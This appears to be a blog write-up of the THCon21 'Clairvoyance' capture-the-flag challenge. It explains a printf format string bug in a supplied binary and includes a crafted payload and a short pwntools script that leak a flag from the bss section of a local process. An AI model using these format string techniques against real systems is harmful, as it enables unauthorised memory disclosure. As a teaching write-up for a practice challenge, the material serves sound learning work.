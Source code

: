 ```yaml
---
title: "THCon21 - Clairvoyance"
date: 2021-06-15T16:29:06+02:00
draft: false
tags: [pwn]
# image: "/image/blog-pic.jpg"
description: "A format string pwn challenge from THCon21"
showDate: true          # to enable/disable showing dates
math: true              # to enable showing equations (katex)
---
```


[Go back to write-ups list](../)

> **Category:** Intro
> 
> **Creator:** Voydstack
> 
> **Description:**
> 
> Do you have enough clairvoyance to read the flag inside my mind ?
> 
> **Attachments:**
> - [clairvoyance](/files/thcon21/clairvoyance)

## Analysing the binary

The attachment is an ELF x64 binary. Again, I opened it in IDA and went to the `main` function.

![Clairvoyance main](/image/thcon21/clairvoyance.png "Clairvoyance main")

To put it simply, the program asks you for your name and whether you want to read the flag. If you say "yes" to the latter, it will blow you off (and if you say something else, it'll just say bye as well).

The weakness here is that the program uses `printf(name)` after saying "nice try", which makes it vulnerable to a format string bug in the name you enter.

Now let's look at the read_flag function, since the flag is not used anywhere in `main` but is probably loaded in memory.

![Clairvoyance main](/image/thcon21/read_flag.png)

Bingo! The content of the file `flag.txt` is read into the `flag` variable. However, `flag` is located in the bss section, not on the stack, when printf will read its arguments on the stack.

![flag on bss](/image/thcon21/bss.png)

But that's not really an issue.

## Exploiting the format string bug

![Awesome meme you are missing :cry:](/image/thcon21/funm.png "r/AAAAAAAAAAAAAAAAA")

The address of the flag isn't on the stack, but our user input is. For example, here is what I get when I input `AAAAAAAA%p%p%p%p%p%p%p%p%p%p`:

```
Nice try, but no flag for you, AAAAAAAA0x7ffeb09c38c0(nil)(nil)0x50x1f0x7ffeb09c60780x100401365(nil)0xa7365790x4141414141414141
```
(I'd gladly put spaces between the `%p` but we're limited to 31 characters in total...)

Here, you can see that the beginning of our user input `AAAAAAAA` (or `0x4141414141414141`) shows up at the end, so at the 10th `%p`, which means that if we send `AAAAAAAA%10$s`, printf will try to display the string at the address `0x4141414141414141`.

Now if we replace `AAAAAAAA` by the address of `flag`, it should print the flag, right? Well, almost.

As you can see in the bss screenshot, the address of the flag is `0x0000000000404080`, which means that you'll have to throw in a bunch of null bytes, and fgets will stop reading your input once it sees a null byte.

So the little trick we're going to make is:
- Send `%11$s`
- Send 3 `A` for padding (making the length = 8), so that our address is fully on the 11th slot
- Send our address

*Note: the actual address starts with null bytes as you can see on the screenshot. Fortunately, we have to send it backwards to the program (because of a different endianness), so the non-null bytes go first!*

Now here is a little python script using pwntools that does exactly what we want:

```py
from pwn import *

elf = ELF("clairvoyance")
bss = elf.symbols["flag"]        # Loads the address of the flag
payload = b'%11$sAAA' + p64(bss) # p64 converts it to 8 bytes with the right endian
print(payload)

p = process("./clairvoyance")
p.recv()
p.sendline(payload)
p.recv()
p.sendline(b"yes")
print(p.recv())
```

![Clairvoyance solved](/image/thcon21/clairvoyance_solved.png)

*Note: as you can see on the screenshot, the binary has No PIE, so the address of `flag` in the bss doesn't change. Otherwise, the challenge would've been more complicated.*


[Go back to write-ups list](../)
